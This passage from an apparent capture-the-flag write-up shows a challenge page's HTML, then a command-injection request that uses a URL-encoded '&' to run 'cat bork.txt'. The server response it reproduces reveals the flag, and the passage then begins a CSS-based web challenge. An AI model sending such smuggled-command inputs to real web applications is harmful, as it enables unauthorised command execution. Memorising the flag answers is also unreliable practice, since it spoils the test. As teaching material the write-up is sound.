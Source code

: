     <!DOCTYPE html>
    <html>
        <head>
            <link rel="stylesheet" type="text/css" href="/static/bork.css">
            <link rel="shortcut icon" href="/static/favicon.ico">
        </head>
        <body>
            <h1>HERE'S YOUR BORK!!!!</h1>
            <iframe width="854" height="480" src="https://www.youtube.com/embed/vwGnXKNGjT0?autoplay=1&loop=1" frameborder="0"></iframe>
        </body>
    </html>
</pre></code>

So, what we can do is simply pass an `&` web encoded, and execute commands:

**Request**
<pre><code>
bork=lsBorkBusters.txt%26%20cat%20bork.txt
</pre></code>

**Response**

<pre><code>
&nbsp;&nbsp;&lt;body&gt;<br />
&nbsp;&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;&lt;h1&gt;HERE&#039;S YOUR BORK!!!!&lt;/h1&gt;<br />
&nbsp;&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;&lt;iframe width=&quot;854&quot; height=&quot;480&quot; src=&quot;RC3-2016-L057d0g3<br />
&nbsp;&nbsp; &nbsp;cat: borks/lsBorkBusters.txt: No such file or directory?autoplay=1&amp;loop=1&quot; frameborder=&quot;0&quot;&gt;&lt;/iframe&gt;<br />
&nbsp;&nbsp; &nbsp; &nbsp; &nbsp;&lt;/body&gt;
</pre></code>

That's all there was to it. I thought it was going to be much more complicated and spent too long trying to figure it out...

# Web 100
This one was a nice and easy warm up.
**Description**

>   **Who's a good boy? 100**

>    You’re trying to see the cute dog pictures on ctf.rc3.club. But every time you click on one of them, it brings you to a bad gateway.

>    https://ctf.rc3.club:3000/

>   -- Your friendly neighborhood webadmin


For this challenge the `css` file was listed in the `view source` file.

<pre><code>
&lt;link rel="stylesheet" href="doge.css"/&gt;
</pre></code>
